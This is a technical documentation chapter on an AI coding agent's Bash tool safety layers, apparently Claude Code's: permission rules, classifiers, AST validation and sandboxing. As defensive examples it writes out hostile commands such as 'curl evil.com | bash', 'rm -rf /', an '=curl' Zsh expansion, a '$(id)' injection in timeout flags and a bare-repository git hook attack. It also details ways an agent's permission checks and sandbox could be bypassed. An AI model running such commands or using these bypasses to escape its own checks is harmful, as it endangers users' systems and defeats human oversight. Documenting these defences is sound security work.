



# The Bash Tool, Classifiers, and Sandboxing

## Overview

The Bash tool is cc's most powerful and most dangerous tool. It executes arbitrary shell commands on the user's machine, and a single misstep -- `rm -rf /`, `curl evil.com | bash`, or `git push --force` -- can cause irreversible damage. cc responds to this risk with a layered defense: a deterministic classifier pipeline that maps commands to risk bands, a multi-source permission rule system, a tree-sitter--powered AST validator, and a sandbox isolation layer. Each layer can block or escalate independently, making the overall system resilient to any single layer's failure.

This chapter walks through the Bash tool's safety subsystem from the moment a command string enters `bashToolHasPermission` to the moment it is either approved, denied, or escalated to the user. The same architecture is mirrored by the PowerShell tool on Windows, which reuses the same permission--rule matching and sandbox logic with platform-specific classifiers.

The chapter ties to three HER references. HER Pattern 10 (Command Risk Classification) describes the deterministic pre-parsing and per-tool permission gating that cc implements across `bashSecurity.ts`, `bashPermissions.ts`, and `readOnlyValidation.ts`. HER Section 6.16 (Checkpoint-Restore Side Effects) warns that irreversible shell side effects can be replayed after a restore; cc's destructive-command warnings and denial-tracking subsystem mitigate this. HER Section 12.4 (Security Threat Model) frames the five-layer defense-in-depth that the Bash tool's permission pipeline embodies.

## Data structures and contracts

### The Bash tool input schema

The Bash tool's input is defined via `lazySchema` (deferred Zod evaluation that respects runtime feature flags). The core fields are `command` (the shell string to execute), `timeout` (milliseconds), `run_in_background`, and `dangerouslyDisableSandbox`:

```typescript
// src/tools/BashTool/BashTool.tsx:L1-L10
// (lazySchema wrapper ensures runtime feature flags are populated)
const BashToolSchema = lazySchema(() =>
  z.object({
    command: z.string().describe('The bash command to run'),
    timeout: semanticNumber().optional(),
    run_in_background: semanticBoolean().optional(),
    dangerouslyDisableSandbox: semanticBoolean().optional(),
    // ... additional fields
  })
)
```

### The classifier result type

The `bashClassifier.ts` exports a `ClassifierResult` type that the permission pipeline consumes:

```typescript
// src/utils/permissions/bashClassifier.ts:L5-L10
export type ClassifierResult = {
  matches: boolean
  matchedDescription?: string
  confidence: 'high' | 'medium' | 'low'
  reason: string
}

export type ClassifierBehavior = 'deny' | 'ask' | 'allow'
```

A classifier that returns `matches: true` with `confidence: 'high'` can auto-approve or auto-deny a command without user interaction. Lower-confidence results fall through to the interactive prompt.

### The SandboxInput type

Sandbox decisions are gated by `shouldUseSandbox.ts`, which consumes a `SandboxInput`:

```typescript
// src/tools/BashTool/shouldUseSandbox.ts:L13-L16
type SandboxInput = {
  command?: string
  dangerouslyDisableSandbox?: boolean
}
```

The sandbox layer is optional and feature-gated. When enabled, it routes commands through an isolated execution environment and applies an auto-allow path that still respects explicit deny/ask rules.

### Permission result type

Every stage of the permission pipeline produces a `PermissionResult`, a discriminated union on the `behavior` field:

```typescript
// src/utils/permissions/PermissionResult.ts (conceptual)
type PermissionResult =
  | { behavior: 'allow'; updatedInput?: unknown; decisionReason: PermissionDecisionReason }
  | { behavior: 'deny'; message: string; decisionReason: PermissionDecisionReason }
  | { behavior: 'ask'; message: string; decisionReason: PermissionDecisionReason; suggestions?: PermissionUpdate[] }
  | { behavior: 'passthrough'; message: string; decisionReason: PermissionDecisionReason; suggestions?: PermissionUpdate[] }
```

The pipeline is designed so that `deny` always takes precedence over `ask`, which takes precedence over `allow`. This deny-first evaluation is a core safety invariant.

### Command semantics

Not all non-zero exit codes indicate failure. The `commandSemantics.ts` module maps commands to their expected exit-code semantics:

```typescript
// src/tools/BashTool/commandSemantics.ts:L10-L17
export type CommandSemantic = (
  exitCode: number,
  stdout: string,
  stderr: string,
) => {
  isError: boolean
  message?: string
}
```

For example, `grep` returns exit code 1 when no matches are found -- a valid outcome, not an error. The `COMMAND_SEMANTICS` map at `src/tools/BashTool/commandSemantics.ts:L31` registers per-command interpreters for `grep`, `rg`, `find`, `diff`, `test`, and `[`.

### The BashTool component and its rendering contract

The main `BashTool` component at `src/tools/BashTool/BashTool.tsx` is built using the `buildTool` helper from `src/Tool.ts`. It defines the tool's input schema, its `call()` method (which invokes `exec` from `src/utils/Shell.ts`), and its `checkPermissions` delegate (which points to `bashToolHasPermission`). The component also manages several presentation concerns that interact with the safety subsystem:

The `isSearchOrReadBashCommand` function at `src/tools/BashTool/BashTool.tsx:L95` classifies commands into search, read, and list categories for collapsible display in the terminal UI. Search commands (`find`, `grep`, `rg`, `ag`, `ack`, `locate`, `which`, `whereis`) are collapsed with a match-count summary. Read commands (`cat`, `head`, `tail`, `less`, `more`, `wc`, `stat`, `file`, `strings`, `jq`, `awk`, `cut`, `sort`, `uniq`, `tr`) are collapsed with a line-count summary. List commands (`ls`, `tree`, `du`) get a directory-count summary.

Semantic-neutral commands (`echo`, `printf`, `true`, `false`, `:`) are skipped in any position within a pipeline, because they are pure output or status commands that do not affect the read/search nature of the overall pipeline. For example, `ls dir && echo "---" && ls dir2` is still classified as a read operation, not a compound write.

The `BASH_SILENT_COMMANDS` set at `src/tools/BashTool/BashTool.tsx:L81` tracks commands that typically produce no stdout on success (`mv`, `cp`, `rm`, `mkdir`, `rmdir`, `chmod`, `chown`, `chgrp`, `touch`, `ln`, `cd`, `export`, `unset`, `wait`). These receive a different UI treatment -- the tool result message omits the "N lines of output" summary.

The tool's `call()` method integrates with the file-history subsystem: when `fileHistoryEnabled()` returns true and the command modifies a tracked file, `fileHistoryTrackEdit` at `src/utils/fileHistory.ts` creates a content-hash-keyed backup before the edit, providing checkpoint-restore semantics for undo operations. This directly addresses HER Section 6.16's concern about irreversible side effects from checkpoint-restore attacks.

### The read-only validation system

The `readOnlyValidation.ts` module at `src/tools/BashTool/readOnlyValidation.ts` implements flag-level allowlisting -- the practice of validating individual CLI flags for complex commands rather than using command-level regexes. The `CommandConfig` type at `src/tools/BashTool/readOnlyValidation.ts:L35` defines a unified validation configuration:

```typescript
// src/tools/BashTool/readOnlyValidation.ts:L35-L50
type CommandConfig = {
  safeFlags: Record<string, FlagArgType>
  regex?: RegExp
  additionalCommandIsDangerousCallback?: (rawCommand: string, args: string[]) => boolean
  respectsDoubleDash?: boolean
}
```

The `safeFlags` record maps each flag name to its argument type (`none` for boolean flags, `string` for flags that take a value, `number` for numeric flags, `path` for file-path arguments). The `validateFlags` function parses the command's arguments against this configuration, flagging any unrecognized flags as potentially dangerous. This is the implementation of the terminology registry's "flag-level allowlisting" entry -- it prevents a command like `find -exec rm {} \;` from being classified as read-only just because `find` is in the read-only command list, since `-exec` is deliberately excluded from `find`'s safe flags.

The `COMMAND_ALLOWLIST` at `src/tools/BashTool/readOnlyValidation.ts:L35` aggregates read-only command definitions from multiple categories: `GIT_READ_ONLY_COMMANDS` (git log, git diff, git show, etc.), `RIPGREP_READ_ONLY_COMMANDS` (grep, rg, ag, ack), `DOCKER_READ_ONLY_COMMANDS` (docker ps, docker images, etc.), `GH_READ_ONLY_COMMANDS` (gh pr list, gh issue view, etc.), `PYRIGHT_READ_ONLY_COMMANDS` (pyright, pyright-python), and `EXTERNAL_READONLY_COMMANDS` (a catch-all for known-safe read commands like ls, cat, head, tail, wc, etc.).

## Control flow

### The permission pipeline: from command string to decision

When the model invokes the Bash tool, the harness calls `bashToolHasPermission` at `src/tools/BashTool/bashPermissions.ts:L1663`. This function is the central dispatch for the entire safety pipeline. Its logic proceeds through a series of gates, each capable of short-circuiting the evaluation:



### Step 1: AST-based security parsing

The first gate is `parseCommandRaw` at `src/utils/bash/parser.ts`, which invokes tree-sitter to produce a structured AST. The result is one of three kinds:

- **simple**: The command parsed cleanly into `SimpleCommand[]` objects. Each command has its `text` span, `argv` array, and `redirects` extracted. This is the happy path.
- **too-complex**: The parse succeeded but found structures that cannot be statically analyzed (command substitution, expansion, control flow, parser differentials). The pipeline respects exact-match deny/ask/allow rules, then falls through to `ask`.
- **parse-unavailable**: Tree-sitter is not loaded (external builds) or the feature flag is off. Falls back to legacy shell-quote parsing.

When the AST produces `simple` commands, `checkSemantics` from `src/utils/bash/ast.ts` runs a name-level check for dangerous builtins: `eval`, `exec`, `source`, `zmodload`, and the full ZSH dangerous-commands set defined at `src/tools/BashTool/bashSecurity.ts:L45-L74`. The semantic check also validates that the command does not contain inline code execution constructs like `bash -c`, `sh -c`, or `zsh -c`, which would allow arbitrary code to bypass the classifier's name-level analysis. When `checkSemantics` returns `{ ok: false }`, the pipeline does not immediately block -- it first checks whether any deny rule matches the command, and only if no deny matches does it escalate to `ask`. This two-step process ensures that a user with an explicit allow rule for `bash -c "safe_script.sh"` is not blocked by the semantic check.

The tree-sitter parse also extracts `Redirect` objects from the AST. These redirects are passed downstream to `checkPathConstraints`, which uses them to validate that output redirections do not write to dangerous paths. This is critical because `splitCommand_DEPRECATED` strips redirections before producing subcommands, so the per-subcommand path check would miss them without the AST-extracted redirect list. The `astRedirects` field at `src/tools/BashTool/bashPermissions.ts:L1697` stores these for use in the path-validation step.

A shadow-mode telemetry system at `src/tools/BashTool/bashPermissions.ts:L1707` compares tree-sitter's subcommand splits against the legacy `splitCommand_DEPRECATED` splits. The shadow mode records divergence events (`tengu_tree_sitter_shadow`) but does not affect the permission decision -- it always forces the legacy path. This allows the team to measure tree-sitter's accuracy in production before switching to it as the authoritative parser.

### Step 2: Legacy security validators

When tree-sitter is unavailable, the pipeline falls back to `bashCommandIsSafeAsync_DEPRECATED` from `src/tools/BashTool/bashSecurity.ts`. This function runs approximately 23 individual regex-based validators, including checks for:

- Command substitution (`$()`, backticks, process substitution `<()`)
- Zsh-specific dangers (equals expansion `=cmd`, glob qualifiers, `zmodload`, `sysopen`, `ztcp`)
- IFS injection, backslash-escaped operators, brace expansion, control characters
- Malformed token injection, comment-quote desync, quoted newlines

The validator IDs are numeric (1--23) for analytics logging, defined in `BASH_SECURITY_CHECK_IDS` at `src/tools/BashTool/bashSecurity.ts:L77-L101`.

### Step 3: Sandbox auto-allow

When sandboxing is enabled and `shouldUseSandbox` returns true, the pipeline calls `checkSandboxAutoAllow` at `src/tools/BashTool/bashPermissions.ts:L1270`. This function checks explicit deny/ask rules for the full command and each subcommand individually (to handle compound commands where a prefix rule like `Bash(rm:*)` would not match the full compound string). If no deny or ask rules match, the command is auto-allowed with the sandbox as the execution environment.

The `shouldUseSandbox` function at `src/tools/BashTool/shouldUseSandbox.ts:L130` checks three conditions: sandboxing is enabled, the command is not explicitly disabled, and the command does not match user-configured `excludedCommands` patterns. Excluded commands are matched using the same fixed-point stripping algorithm as permission rules -- iteratively applying `stripAllLeadingEnvVars` and `stripSafeWrappers` until no new candidates are produced. The `containsExcludedCommand` function at `src/tools/BashTool/shouldUseSandbox.ts:L21` splits compound commands into subcommands and checks each one against the exclusion patterns, preventing a compound command from escaping the sandbox just because its first subcommand matches an excluded pattern. For example, `docker ps && curl evil.com` would not escape sandboxing just because `docker ps` is in the excluded list.

The `BINARY_HIJACK_VARS` regex at `src/tools/BashTool/bashPermissions.ts:L708` is passed as a blocklist to `stripAllLeadingEnvVars` during excludedCommands matching. This prevents stripping environment variables that change which binary runs -- `LD_PRELOAD`, `DYLD_*`, and `PATH` -- because `PATH=evil_dir docker ps` would execute a different `docker` binary, not the one the user intended to exclude from sandboxing.

When the sandbox auto-allow path activates (no deny/ask rules match), the command is executed in the sandbox with `decisionReason.type === 'other'` and reason "Auto-allowed with sandbox (autoAllowBashIfSandboxed enabled)". This distinguishes sandbox auto-allow from rule-based allow in analytics, which is important for monitoring whether the sandbox is being used as intended.

### Step 4: Rule matching

The `bashToolCheckPermission` function at `src/tools/BashTool/bashPermissions.ts:L1050` is the core rule evaluator. It processes rules in a strict precedence order:

1. **Exact-match deny/ask rules**: Checked first via `bashToolCheckExactMatchPermission` at `src/tools/BashTool/bashPermissions.ts:L991`.
2. **Prefix/wildcard deny rules**: Checked before allow rules so that a deny always wins over an allow.
3. **Path constraints**: `checkPathConstraints` validates that the command does not write outside allowed directories, with special handling for `cd`+redirect combinations.
4. **Exact-match allow rules**: Only checked after deny/ask rules.
5. **Prefix/wildcard allow rules**: Checked last.
6. **sed constraints**: Blocks dangerous sed operations before mode auto-allow.
7. **Mode-specific handling**: `checkPermissionMode` from `src/tools/BashTool/modeValidation.ts:L72` handles acceptEdits mode, which auto-allows filesystem commands like `mkdir`, `touch`, `rm`, `mv`, `cp`, and `sed`.
8. **Read-only auto-allow**: If `BashTool.isReadOnly(input)` returns true, the command is automatically allowed.

### Step 5: The classifier pipeline



The classifier is an LLM-based system that evaluates commands against user-defined prompt descriptions. When `isClassifierPermissionsEnabled()` returns true and the mode is not `auto` (which has its own classifier), `bashToolHasPermission` runs deny and ask classifiers in parallel via `classifyBashCommand`. A high-confidence match on a deny description immediately blocks the command; a high-confidence match on an ask description escalates to the user. When neither matches, the pipeline continues.

The speculative classifier check (`startSpeculativeClassifierCheck` at `src/tools/BashTool/bashPermissions.ts:L1502`) begins the classifier evaluation in parallel with PreToolUse hooks and permission-dialog setup, so that by the time the user sees the prompt, the classifier may already have resolved it.

### Step 6: Destructive command warnings

The `destructiveCommandWarning.ts` module at `src/tools/BashTool/destructiveCommandWarning.ts:L1` is a purely informational layer -- it does not affect permission decisions. It scans commands against a list of `DESTRUCTIVE_PATTERNS` and returns human-readable warnings:

```typescript
// src/tools/BashTool/destructiveCommandWarning.ts:L12-L16
const DESTRUCTIVE_PATTERNS: DestructivePattern[] = [
  { pattern: /\bgit\s+reset\s+--hard\b/, warning: 'Note: may discard uncommitted changes' },
  { pattern: /\bgit\s+push\b[^;&|\n]*[ \t](--force|--force-with-lease|-f)\b/, warning: 'Note: may overwrite remote history' },
  // ... 15 more patterns covering git, rm, database, and infrastructure commands
]
```

The warnings are displayed in the permission dialog so the user can make an informed decision. This connects to HER Section 6.16: destructive commands that cause irreversible side effects are exactly the ones that checkpoint-restore attacks replay.

### Step 7: Command semantics for exit codes

After a command executes, `interpretCommandResult` at `src/tools/BashTool/commandSemantics.ts:L124` maps the exit code through the appropriate `CommandSemantic`. This prevents cc from treating expected non-zero exit codes as errors (e.g., `grep` returning 1 when no matches are found), which would cause the model to waste turns on false failures.

### The sandbox and permission decision state machine

The interaction between sandbox, classifiers, and permission rules can be understood as a state machine. The following diagram shows the possible states a Bash tool use can transition through from the initial invocation to a final decision:



### The PowerShell variant

On Windows, the PowerShell tool at `src/tools/PowerShellTool/PowerShellTool.tsx:L1` mirrors the Bash tool's architecture. It has its own security module (`powershellSecurity.ts`), its own permissions module (`powershellPermissions.ts`), its own `commandSemantics.ts`, `destructiveCommandWarning.ts`, `modeValidation.ts`, `pathValidation.ts`, `readOnlyValidation.ts`, and `prompt.ts`. The permission pipeline delegates to `powershellToolHasPermission` instead of `bashToolHasPermission`, but the rule-matching logic (exact match, prefix/wildcard deny-first evaluation, path constraints, read-only auto-allow) follows the same pattern. The sandbox integration is shared: `shouldUseSandbox` is imported from `../BashTool/shouldUseSandbox.ts` at `src/tools/PowerShellTool/PowerShellTool.tsx:L36`, so both tools route to the same sandbox when enabled.

The PowerShell tool's rendering layer also mirrors the Bash tool's command-classification system. It defines `PS_SEARCH_COMMANDS` at `src/tools/PowerShellTool/PowerShellTool.tsx:L54` containing cmdlet names like `Select-String` (grep equivalent), `Get-ChildItem` (find equivalent), `Findstr` (native Windows search), and `Where.exe` (native Windows which). These mirror the Bash tool's `BASH_SEARCH_COMMANDS` set defined at `src/tools/BashTool/BashTool.tsx:L60`. This platform-specific adaptation is necessary because PowerShell's verb-noun naming convention and pipeline semantics differ from POSIX shells.

The PowerShell tool also defines `DIRECTORY_CHANGE_ALIASES` in its parser module, matching `cd`, `pushd`, and `popd` -- the same commands tracked by `isNormalizedCdCommand` at `src/tools/BashTool/bashPermissions.ts:L2603`. This symmetry ensures that the cd+git security gate (which blocks compound commands containing both a directory change and a git invocation) works identically on both platforms.

The PowerShell tool's `prompt.ts` at `src/tools/PowerShellTool/prompt.ts` provides PowerShell-specific instructions to the model, including guidance on cmdlet usage, pipeline semantics, and Windows path handling. Like the Bash tool's prompt at `src/tools/BashTool/prompt.ts`, it includes git commit and PR instructions, background-task usage notes, and attribution requirements.

### Fixed-point command stripping

A critical security mechanism in the permission pipeline is the iterative command normalization performed by `stripSafeWrappers` at `src/tools/BashTool/bashPermissions.ts:L524` and `stripAllLeadingEnvVars` at `src/tools/BashTool/bashPermissions.ts:L733`. The two-phase stripping operates as follows:

**Phase 1** strips leading safe environment variables and comment lines. Only variables in `SAFE_ENV_VARS` (e.g., `GOOS`, `NODE_ENV`, `LANG`, `TERM`) are stripped for allow rules, because stripping `DOCKER_HOST` or `KUBECONFIG` from an allow-rule match would hide the network endpoint from the permission check.

**Phase 2** strips wrapper commands (`timeout`, `time`, `nice`, `nohup`) and their flags. These wrappers use `execvp` to run their arguments, so `timeout 10 npm install` is semantically equivalent to `npm install` for permission purposes.

For deny rules, `stripAllLeadingEnvVars` strips ALL leading env var prefixes regardless of the safe list, because a denied command must stay denied even when prefixed with arbitrary variables like `FOO=bar denied_command`. Both functions are iterated to a fixed point, handling interleaved patterns like `nohup FOO=bar timeout 5 claude` where:

1. `stripSafeWrappers` strips `nohup`, yielding `FOO=bar timeout 5 claude`
2. `stripAllLeadingEnvVars` strips `FOO=bar`, yielding `timeout 5 claude`
3. `stripSafeWrappers` strips `timeout 5`, yielding `claude` (deny match)

This fixed-point command stripping pattern directly corresponds to the terminology registry's "fixed-point command stripping" entry.

## Edge cases and failure modes

### Compound commands and subcommand fanout

A compound command like `cd /tmp && rm -rf x && python3 script.py` is split into subcommands, each evaluated independently. The `MAX_SUBCOMMANDS_FOR_SECURITY_CHECK` cap at `src/tools/BashTool/bashPermissions.ts:L103` limits evaluation to 50 subcommands -- beyond this, the pipeline returns `ask` because it cannot prove safety. This cap was introduced after a ReDoS-like issue where `splitCommand_DEPRECATED` could produce an exponentially large subcommand array, starving the event loop at 100% CPU.

### cd + git compound command attack

A specific attack vector uses `cd` to navigate to a directory containing a malicious bare git repository with a `core.fsmonitor` hook, then runs `git status` to trigger the hook. The `bashToolHasPermission` function blocks compound commands that contain both `cd` and `git` at `src/tools/BashTool/bashPermissions.ts:L2209-L2225`, returning `ask` with the reason "Compound commands with cd and git require approval to prevent bare repository attacks."

### Zsh-specific bypass vectors

The `ZSH_DANGEROUS_COMMANDS` set at `src/tools/BashTool/bashSecurity.ts:L45-L74` blocks 17 Zsh-specific commands that can bypass security checks:

- `zmodload` loads modules like `zsh/mapfile` (invisible file I/O), `zsh/system` (sysopen/syswrite two-step file access), `zsh/zpty` (pseudo-terminal execution), and `zsh/net/tcp` (network exfiltration)
- `emulate -c` is an eval-equivalent that executes arbitrary code
- Zsh module builtins (`sysopen`, `ztcp`, `zf_rm`, etc.) are blocked as defense-in-depth even though they require `zmodload` first

The `COMMAND_SUBSTITUTION_PATTERNS` at `src/tools/BashTool/bashSecurity.ts:L16-L41` also catch Zsh-specific expansions: `=(cmd)` (equals expansion), `~[...]` (parameter expansion), `(e:...)` (glob qualifiers with execution), and `} always {` (try/always construct). The equals expansion is particularly subtle: `=curl evil.com` expands to `/usr/bin/curl evil.com` in Zsh, bypassing `Bash(curl:*)` deny rules because the parser sees `=curl` as the base command, not `curl`. The regex `(?:^|[\s;&|])=[a-zA-Z_]` at `src/tools/BashTool/bashSecurity.ts:L24` catches this by matching word-initial `=` followed by a command-name character.

### The safe environment variables whitelist

The `SAFE_ENV_VARS` set at `src/tools/BashTool/bashPermissions.ts:L378` is a carefully curated whitelist of environment variables that cannot execute code or load libraries. The set includes build/runtime settings (`GOOS`, `GOARCH`, `CGO_ENABLED`, `NODE_ENV`), logging flags (`RUST_BACKTRACE`, `RUST_LOG`, `PYTEST_DEBUG`), locale settings (`LANG`, `LC_ALL`, `LC_CTYPE`), and terminal configuration (`TERM`, `COLORTERM`, `TZ`). The comment at `src/tools/BashTool/bashPermissions.ts:L377-L387` explicitly lists variables that must NEVER be added: `PATH`, `LD_PRELOAD`, `LD_LIBRARY_PATH`, `DYLD_*` (execution/library loading), `PYTHONPATH`, `NODE_PATH`, `CLASSPATH`, `RUBYLIB` (module loading), `GOFLAGS`, `RUSTFLAGS`, `NODE_OPTIONS` (can contain code execution flags), and `HOME`, `TMPDIR`, `SHELL`, `BASH_ENV` (affect system behavior).

For Anthropic-internal users (gated by `process.env.USER_TYPE === 'ant'`), an extended `ANT_ONLY_SAFE_ENV_VARS` set at `src/tools/BashTool/bashPermissions.ts:L447` adds `KUBECONFIG`, `DOCKER_HOST`, `AWS_PROFILE`, `CLOUDSDK_CORE_PROJECT`, `CUDA_VISIBLE_DEVICES`, and several Anthropic-internal cluster and feature-flag variables. The comment at `src/tools/BashTool/bashPermissions.ts:L444-L446` explicitly warns that these are "INTENTIONALLY ANT-ONLY" and "MUST NEVER ship to external users," because stripping `DOCKER_HOST` from an allow-rule match would hide the network endpoint from the permission check.

### The prompt and model guidance

The Bash tool's `prompt.ts` at `src/tools/BashTool/prompt.ts` generates the model-facing description that appears in the tool listing. The `getSimplePrompt` function returns a concise version for contexts where the full prompt would be too large. The prompt includes several safety-relevant instructions:

- The `getBackgroundUsageNote` function at `src/tools/BashTool/prompt.ts:L36` explains the `run_in_background` parameter, cautioning the model that it should only use background execution when it does not need the result immediately.
- The `getCommitAndPRInstructions` function at `src/tools/BashTool/prompt.ts:L48` provides git commit and PR guidance, including undercover mode instructions that prevent the model from volunteering internal codenames in commit messages.
- The prompt includes timeout guidance via `getDefaultTimeoutMs` and `getMaxTimeoutMs`, which configure the default (120 seconds) and maximum (600 seconds) execution time for bash commands.

These prompt-level instructions are the outermost layer of defense -- they shape the model's behavior before it even constructs a command. Combined with the programmatic defenses in the permission pipeline, they form the "prompt-level guardrails" described in HER Section 12.4's five-layer defense-in-depth model.

### Prefix-rule word-boundary enforcement

Permission rules use word-boundary matching to prevent `Bash(ls:*)` from matching `lsof` or `lsattr`. The check at `src/tools/BashTool/bashPermissions.ts:L896-L900` requires the prefix to be followed by a space or end-of-string. This is a defense against parser differentials -- situations where the validator and the shell interpreter disagree on token boundaries.

### Sandbox excludedCommands bypass

The `excludedCommands` feature in `shouldUseSandbox.ts` is explicitly documented as "not a security boundary" at `src/tools/BashTool/shouldUseSandbox.ts:L18-L19`. The actual security control is the permission system, which always prompts users. ExcludedCommands is a convenience feature that prevents sandbox auto-allow for specific tools (e.g., `bazel:*`) that need unsandboxed access. The `containsExcludedCommand` function splits the command into subcommands and checks each against the exclusion list, with the same fixed-point stripping applied to each subcommand individually.

For Anthropic-internal users, a dynamic `tengu_sandbox_disabled_commands` GrowthBook flag provides additional substring-based exclusion matching at `src/tools/BashTool/shouldUseSandbox.ts:L24`. This allows the team to quickly disable sandboxing for specific commands in response to operational issues without requiring a code deploy.

### Permission rule suggestion heuristics

When the permission pipeline returns `ask` or `passthrough`, it includes a `suggestions` array containing `PermissionUpdate` objects that propose rules the user can add to avoid being prompted in the future. The suggestion logic is designed to propose the narrowest rule that covers the current command:

- `suggestionForExactCommand` at `src/tools/BashTool/bashPermissions.ts:L266` first checks for heredoc commands (which contain multi-line content that changes each invocation, making exact-match rules useless) and suggests a prefix rule based on the text before the heredoc operator instead.
- For multiline commands without heredoc, it uses the first line as a prefix rule to avoid generating patterns containing `:*` in the middle, which would fail permission validation and corrupt the settings file.
- For single-line commands, `getSimpleCommandPrefix` at `src/tools/BashTool/bashPermissions.ts:L161` extracts a stable 2-word prefix (e.g., `git commit` from `git commit -m "fix typo"`), skipping safe environment variable assignments.
- Commands whose first word is in `BARE_SHELL_PREFIXES` at `src/tools/BashTool/bashPermissions.ts:L196` (sh, bash, zsh, fish, sudo, env, xargs, etc.) are never used as prefix suggestions, because `Bash(bash:*)` would allow arbitrary code via `-c`, and `Bash(sudo:*)` would allow privilege escalation.

The `MAX_SUGGESTED_RULES_FOR_COMPOUND` cap at `src/tools/BashTool/bashPermissions.ts:L110` limits suggestion generation for compound commands to 5 rules, preventing the "Yes, and don't ask again for X, Y, Z..." label from degrading into noise when a user chains many write commands in a single `&&` list.

### The stripSafeWrappers security detail

The `stripSafeWrappers` function at `src/tools/BashTool/bashPermissions.ts:L524` contains several security-critical implementation details that are worth examining closely:

**Horizontal whitespace only**. The function's `SAFE_WRAPPER_PATTERNS` use `[ \t]+` rather than `\s+` to match whitespace between the wrapper and its arguments. The `\s` class matches `\n` and `\r`, which are command separators in bash. Matching across a newline would strip the wrapper from one line and leave a different command on the next line for bash to execute. The same constraint applies to the `ENV_VAR_PATTERN` at `src/tools/BashTool/bashPermissions.ts:L575`.

**Timeout flag-value allowlist**. The `TIMEOUT_FLAG_VALUE_RE` at `src/tools/BashTool/bashPermissions.ts:L620` restricts timeout flag values to `[A-Za-z0-9_.+-]+`. Previously, the pattern `[^ \t]+` matched `$`, `(`, `)`, backtick, `|`, `;`, and `&`. This allowed `timeout -k$(id) 10 ls` to strip to `ls`, matching `Bash(ls:*)`, while bash expanded `$(id)` during word splitting before timeout ran. The allowlist prevents this class of injection.

